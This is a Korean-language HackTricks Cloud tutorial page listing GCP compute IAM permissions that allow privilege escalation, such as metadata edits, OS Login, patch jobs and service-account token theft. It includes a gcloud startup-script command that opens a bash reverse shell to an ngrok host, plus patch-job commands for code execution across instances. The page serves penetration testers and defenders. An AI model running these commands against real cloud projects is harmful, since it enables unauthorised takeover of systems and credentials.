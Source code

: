 # GCP - 컴퓨팅 권한 상승

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로**부터 **히어로**까지 AWS 해킹을 배우세요!</summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고되길 원하거나** **PDF로 HackTricks 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 굿즈**](https://peass.creator-spring.com)를 구매하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [**디스코드 그룹**](https://discord.gg/hRep4RUj7f)에 가입하거나 [**텔레그램 그룹**](https://t.me/peass)에 가입하거나** 트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **HackTricks** 및 **HackTricks Cloud** 깃허브 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>

## 컴퓨팅

GCP의 컴퓨팅 및 VPC(네트워크)에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
인스턴스의 메타데이터를 수정해야 하는 모든 권한 상승 공격을 수행하려면 (새 사용자 및 SSH 키 추가와 같은) **인스턴스에 연결된 SA에 대한 `actAs` 권한이 필요**하다는 점을 유의하세요!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

해당 권한으로 **인스턴스**의 **메타데이터 정보를 수정**하고 **사용자의 인증 키를 변경**하거나 **sudo 권한을 가진 새 사용자를 생성**할 수 있습니다. 따라서 SSH를 통해 모든 VM 인스턴스에 액세스하고 인스턴스가 실행 중인 GCP 서비스 계정을 탈취할 수 있습니다.\
제한 사항:

* 기본적으로 VM 인스턴스에서 실행되는 GCP 서비스 계정은 **매우 제한된 범위**를 갖습니다.
* **SSH 서버에 연락할 수 있어야**합니다.

이 권한을 악용하는 방법에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

또는 새로운 시작 스크립트를 추가하고 인스턴스를 다시 부팅하여 이 공격을 수행할 수 있습니다:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

이 권한은 **이전 권한과 동일한 권한**을 제공하지만 전체 프로젝트가 아닌 특정 인스턴스에 대해 적용됩니다. **이전 섹션과 동일한 취약점과 제한이 적용**됩니다.

### `compute.instances.setIamPolicy`

이 유형의 권한을 사용하면 **이전 권한을 가진 역할을 부여**하고 그것을 남용하여 권한을 상승시킬 수 있습니다.

### **`compute.instances.osLogin`**

**인스턴스에서 OSLogin이 활성화**된 경우,이 권한을 사용하면 **`gcloud compute ssh [INSTANCE]`**를 실행하여 인스턴스에 연결할 수 있습니다. 인스턴스 내에서 **루트 권한을 가지지 않습니다**.

### **`compute.instances.osAdminLogin`**

**인스턴스에서 OSLogin이 활성화**된 경우,이 권한을 사용하면 **`gcloud compute ssh [INSTANCE]`**를 실행하여 인스턴스에 연결할 수 있습니다. 인스턴스 내에서 **루트 권한을 가집니다**.

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

할당된 서비스 계정을 가진 가상 머신을 **생성하고 서비스 계정의 토큰을 도용**하여 특권을 상승시킬 수 있습니다.

이 방법의 exploit 스크립트는 [여기](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py)에서 찾을 수 있습니다.

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

**`osconfig.patchDeployments.create`** 또는 **`osconfig.patchJobs.exec`** 권한이 있는 경우 [**패치 작업 또는 배포**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching)를 생성할 수 있습니다. 이를 통해 환경에서 측면 이동하고 프로젝트 내의 모든 컴퓨팅 인스턴스에서 코드 실행을 얻을 수 있습니다.

수동으로 이를 악용하려면 [패치 작업](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) 또는 [배포](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)를 생성해야 합니다. 패치 작업을 실행하려면:

`gcloud compute os-config patch-jobs execute --file=patch.json`

패치 배포를 배포하려면:

`gcloud compute os-config patch-deployments create my-update --file=patch.json`

[patchy](https://github.com/rek7/patchy)와 같은 자동화 도구를 사용하여 느슨한 권한을 감지하고 자동으로 측면 이동할 수 있습니다.

**이를 영속적으로 악용할 수도 있습니다.**

### `compute.machineImages.setIamPolicy`

컴퓨팅 이미지에 **추가 권한을 부여**합니다.

### `compute.snapshots.setIamPolicy`

디스크 스냅샷에 **추가 권한을 부여**합니다.

### `compute.disks.setIamPolicy`

디스크에 **추가 권한을 부여**합니다.

### 액세스 스코프 우회

다음 링크를 따라가면 [**액세스 스코프 우회를 시도하는 아이디어**](../)를 찾을 수 있습니다.

### GCP 컴퓨트 인스턴스에서 로컬 특권 상승

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## 참고 자료

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)
